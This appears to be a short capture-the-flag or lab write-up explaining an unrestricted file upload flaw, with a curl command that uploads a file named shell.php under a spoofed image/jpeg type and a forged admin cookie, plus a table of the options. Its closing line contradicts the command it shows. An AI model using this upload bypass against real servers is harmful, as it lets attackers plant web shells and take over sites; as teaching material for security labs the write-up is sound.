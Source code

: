 ## 🎯 Vulnerability: Unrestricted File Upload

This vulnerability occurs when a web application allows users to upload files without properly validating their type or content. In this case, the server only checks the file extension or the `Content-Type` header, allowing us to upload a file that looks like an image but actually contains PHP code.

### 🛠 What We Did

We used the following `curl` command to upload a malicious PHP file while pretending it is an image:

```bash
curl -X POST http://{IP_ADDRESS}/?page=upload \
  -H "Cookie: I_am_admin=68934a3e9455fa72420237eb05902327" \
  -F "uploaded=@shell.php;type=image/jpeg" \
  -F "Upload=Upload"
```

### Option	Description
```
-X  POST	Sends a POST request, which is typically used for form submissions.
-H	Adds a custom HTTP header. We use it to send an admin cookie (I_am_admin) to bypass access restrictions.
-F	Sends form data as multipart/form-data. We attach the file and spoof the MIME type as image/jpeg.
    Upload=Upload	Mimics the submit button name; required by some forms to process the upload.
```

There is no need to add cookies or shell code for this scenario.